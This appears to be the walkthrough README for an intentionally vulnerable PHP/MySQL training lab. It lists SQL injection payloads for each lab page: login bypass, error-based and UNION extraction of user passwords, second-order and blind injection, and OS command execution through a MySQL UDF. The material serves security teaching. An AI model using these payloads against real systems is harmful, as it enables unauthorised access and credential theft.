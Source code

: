 # Walkthrough document

This document explains the different attacks that can be done on this setup. Use `?debug=true` to see the actual query being executed.

## Registration

Use the `register.php` to create users

## Login bypass attack

Bypassing login using boolean expressions

**Page:** `login1.php`

**Attack:** 
   
- `non-existent-user' OR 1=1 -- //`
- `bob' -- //` 

**Page:** `login2.php`

**Attack:** 

- `voldemort') -- //`

## Verbose SQL Error based Injection

Forcing error conditions to reveal and extract data

**Page:** `login1.php` 

**Attack:**

- `' or 1 in (select @@version) -- //`
- `' or 1=CAST((select group_concat(table_name) from information_schema.columns) AS SIGNED) -- //`
- `' or 1 in (select password from users where username = 'admin') -- //`


## Extracting data using UNION queries

Using a pre existing SQL select query to fetch additional data from the DB

**Page:** `searchproducts.php` 

**Attack:**

- `' order by 5 -- //`
- `' union select 1,2,3,4,5 -- //`
- `' union select null, null, database(), user(), @@version -- //`
- `' union select null, table_name, column_name, table_schema, null from information_schema.columns -- //`
- `' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //`
- `' union select null, id, username, password, fname from users -- //`

## Second order SQL injection

User input is stored and reused as is in a different function that has no protection

**Page:** `secondorder_register.php`

**Attack:**

```
- ' or 1 in (select @@version) -- //
- ' or 1 in (select password from users where username='admin') -- //
- ' or 1 in (select convert(password,unsigned) from users where username='admin') -- //
- navigate to secondorder_changepass.php
```

## Blind SQL injection

**Page:** `blindsqli.php`

**Attack:**

- `?user=1' and 1=1 -- //`
- `?user=admin' and substring((select table_name from information_schema.columns where column_name = 'password' LIMIT 1),1,1)>'a' -- //` 
- `?user=1' union select 1,2,3,4, if (substring(username,1,1) > 'd', benchmark(100000000, encode('txt','secret')),null) from users where id=1 -- //` 

## OS interaction

**Page:** `os_sqli.php`

**Attack:** 

- Given that we have mounted the `./udf` folder to `/usr/lib/mysql/plugin`, the `lib_mysqludf_sys.so` inside the `./udf` is available to the MySQL instance
- UDF obtained from `https://github.com/sqlmapproject/udfhack/blob/35abeedc6c590d2fc666a64b57aad9cf7944ec7a/linux/lib_mysqludf_sys/lib_mysqludf_sys.so`
- Use the ability to perform stacked queries in `os_sqli.php` to create a UDF function from the `lib_mysqludf_sys.so` library.
- `os_sqli.php?user=qqqq'; create function sys_eval returns string soname 'lib_mysqludf_sys.so';`
- `os_sqli.php?user=qqqq' union select 1,sys_eval('id'),3,4,5 -- //`
- To drop the function and redo the exercise run `os_sqli.php?user=qqqq';drop function sys_eval;`
- As the MySQL instance is running in a separate container than the web application, the `INTO OUTFILE` way of writing a php shell to disk will not work as the shell will be written inside the MySQL container can cannot be accessed from the web application.

## References

- SQL Injection Cheat Sheet - http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
- Various ways of loading a UDF into MySQL - https://osandamalith.com/2018/02/11/mysql-udf-exploitation/

## Testing